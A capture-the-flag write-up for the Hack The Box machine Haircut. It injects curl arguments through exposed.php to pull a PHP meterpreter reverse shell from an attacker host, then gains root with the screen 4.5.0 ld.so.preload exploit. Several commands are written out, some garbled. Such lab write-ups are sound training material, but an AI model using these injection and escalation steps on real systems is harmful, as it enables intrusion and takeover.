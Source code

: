 **Level: **Intermediate

**Task:** find **user.txt** and **root.txt** file on the victim’s machine.

Since these labs are online accessible therefore they have static IP. The IP of Haircut is **10.10.10.24** so let’s initiate with nmap port enumeration.

From the given below image, you can observe we found port 22 and 80 are open in the victim’s network.

![](../img/Haircut Writeusp/1.png)

Knowing port 80 is open to the victim’s network we preferred to explore his IP in a browser and the following image as shown below.

![](../img/Haircut Writeusp/2.png)

Then I preferred to use dirbuster tool and chose **directory list 2-3 medium.txt** file for directory brute force attack on **http://10.10.10.24** for PHP file extension.

![](../img/Haircut Writeusp/3.png)

As a result, it found the **uploads** directory with 403 response and an **exposed.php** file with 200 ok response.

![](../img/Haircut Writeusp/4.png)

When we explored **http://10.10.10.24/exposed.php** we found a search page for finding the location of any hairdresser’s.

![](../img/Haircut Writeusp/6.png)

For testing, I search for google.com and received very uncommon result but when I inspect the following code I notice the word “**CURL**” which might be pointing towards running curl service in targets system. As we known curl have upload or download option and hence here we can transfer our backdoor to targets system.

![](../img/Haircut Writeusp/7.png)

Without wasting time I generated a PHP backdoor with help of msfvenom and **start multi/handler** inside the Metasploit framework.

msfvenom  \-p  php/meterpreter/reverse\_tcp lhost\=10.10.14.3  lport\=4321  \-f  raw

![](../img/Haircut Writeusp/8.png)

Now we need to transfer our **backdoor** file to the target system therefore first we need to **run python server** on port 80 using the following command.

python  \-m  SimpleHTTPServer  80

![](../img/Haircut Writeusp/9.png)

First I tried to upload the file directly through browser http://10.10.10.24/exposed.php but got failed at that point I **use burpsuite** for fetching HTTP post request and send it to **the repeater**. Then I run curl command for downloading any file from the given path by **omitting word “curl”** as shown below.

formurl  \=  \-o  uploads/revshell.php http://10.10.14.3/revshell.php

**uploads/revshell.php** denotes the path where our backdoor reverse.php file will be uploaded.

**http://10.10.14.3/revshell.php** denotes the path for downloading the file from here.

After then click on **the Go** tab and found that our file is successfully transferred into the target’s system.

![](../img/Haircut Writeusp/10.1.png)

As the revshell.php file is successfully transferred into the target’s system but we need to execute that file for getting the reverse connection, therefore, I simply run following the path in a web browser.

http://10.10.10.24/uploads/revshell.php

After executing uploaded backdoor file come back to the Metasploit framework and wait for the meterpreter session.

msf use  exploit/multi/handler

msf exploit(multi/handler)  set payload php/meterpreter/reverse\_tcp

msf exploit(multi/handler)  set lhost  10.10.14.3

msf exploit(multi/handler)  set lport  4321

msf exploit(multi/handler)  exploit

From given below image you can observe **meterpreter session 1** opened for accessing victim tty shell.

![](../img/Haircut Writeusp/10.png)

Now let’s finished the task by grabbing user.txt and root.txt file. First I move into the home directory and check available files and directories inside it.

here I got a directory maria and after exploring it we found so many files and directory, at last, I fetch the user.txt file from inside /**maria/Desktop/** and use cat command for reading.

**our 1st challenges finished successfully now move for 2nd challenge.**

![](../img/Haircut Writeusp/11.png)

For spawning proper tty shell of target’s system we need to import python file, therefore, I run following command inside the meterpreter shell

python  \-c  'import pty;pty.spawn("/bin/bash")'

Then using the following command we got all files and directories having root permission.

find  /  \-perm  \-4000  \-user  root  \-exec  ls  \-ld  {}  \\;  2\>/dev/null

Here I notice **/usr/bin/screen-4.5.0** now let’s check its exploit if available.

![](../img/Haircut Writeusp/12.png)

In a new terminal, we look for any exploit present in exploitdb for screen 4.5.0 with help of searchsploit.

searchsploit screen  4.5.0

From given below image you can observe the highlighted **exploit 41154.sh** which is a shell script for local privilege escalation.

![](../img/Haircut Writeusp/13.png)

When I didn’t find any appropriate method to execute this shell script for post exploitation then I go with manual compilation and review its code using cat command.

cat  /usr/share/exploitdb/exploits/linux/local/41154.sh

If you will notice the following code then you will observe this script is written in C language and we have divided it into three part for manual compilation.

*   **Copy Yellow** highlighted the code and past it in a text document and save it as **libhax.c**
*   **Copy** **Orang**e highlighted the code and past it in a text document and save it as **rootshell**.**c**

At last **copy remaining** code and past it in a text document and save it as **41154.sh**

![](../img/Haircut Writeusp/14.png)

From given below image you can see I have pasted above copied inside **rootshell.c**

![](../img/Haircut Writeusp/16.png)

From given below image you can see I have pasted above copied inside **libhax.c**

![](../img/Haircut Writeusp/17.png)

From given below image you can see I have pasted above remaining copied inside **41154.sh** and save all three text document on the desktop in a new **folder shell**.

![](../img/Haircut Writeusp/18.png)

Let’s compile our C program file manually in our local system using gcc as given below.

gcc  \-fPIC  \-shared  \-ldl  \-o  libhax.so libhax.c

![](../img/Haircut Writeusp/22.png)

Similarly compile rootshell.c file through the following command.

gcc  \-o  rootshell rootshell.c

![](../img/Haircut Writeusp/23.png)

From given below image you can see all files we have stored in our folder shell, now let’s upload them into the target’s system through our previous meterpreter session.

![](../img/Haircut Writeusp/24.png)

Since we /tmp has read and write permission, therefore, we are uploading all files in /tmp directory by executing following command.

cd  /tmp

upload  /root/Desktop/shell  .

![](../img/Haircut Writeusp/25.1.png)

Again for spawning proper tty shell of target’s system, we need to import python file, therefore, I run following command inside the meterpreter shell

python  \-c  'import pty;pty.spawn("/bin/bash")'

Open 41154.sh file as it contains a command for getting root privilege as shown below.

![](../img/Haircut Writeusp/25.png)

Execute the following command and get the root.

cd  /etc

unmask  000

\-D  \-m  \-L  ld.so.preload echo  \-ne   "\\x0a/tmp/libhax.so"

cd root

Here I got root.txt file now using cat command let open this file and finished our 2nd challenge.

**Wonderful!!** We had completed the task and hacked this box.

![](../img/Haircut Writeusp/26.png)

**Author: **AArti Singh is a Researcher and Technical Writer at Hacking Articles an Information Security Consultant Social Media Lover and Gadgets. Contact**[ here](https://www.linkedin.com/in/aarti-singh-353698114)**s